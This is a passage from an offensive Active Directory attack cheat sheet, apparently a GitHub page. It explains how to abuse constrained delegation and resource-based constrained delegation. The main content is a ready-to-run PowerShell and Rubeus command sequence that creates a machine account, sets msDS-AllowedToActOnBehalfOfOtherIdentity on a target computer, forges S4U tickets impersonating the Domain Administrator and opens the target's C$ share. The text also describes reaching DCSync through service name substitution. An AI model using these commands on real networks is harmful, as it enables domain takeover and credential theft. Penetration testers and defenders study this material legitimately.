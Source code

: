 :triangular_flag_on_post: **If we have a machine account with Constrained Delegation:**
We can do the same steps as before, but insted of a user account we can use the machine's account!
A nice misconfiguration is that even if we have only specified service that the machine account is allowed to delegate to, we can    
delegate to any service that "uses" this machine account!

For example if the machine account is trusted to telegate to the DC for the "time" service, we are able to use any service we want ->   ldap, cifs etc!

That is super important and abusive, since if i can use ldap on DC i can DCsync impersonating the Domain Admnistrator!

### Resource Based Constrained Delegation

*WUT IS DIS?: \
TL;DR \
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate Domain Administrator and have complete access.*

Tools we are going to use:
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [Rubeus](https://github.com/GhostPack/Rubeus)

First we need to enter the security context of the user/machine account that has the privileges over the object.
If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:
```
#Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

#Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

#Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)

#Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

#After that we need to get the RC4 hash of the new machine account's password using Rubeus
Rubeus.exe hash /password:'p@ssword!'

#And for this example, we are going to impersonate Domain Administrator on the cifs service of the target computer using Rubeus
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```
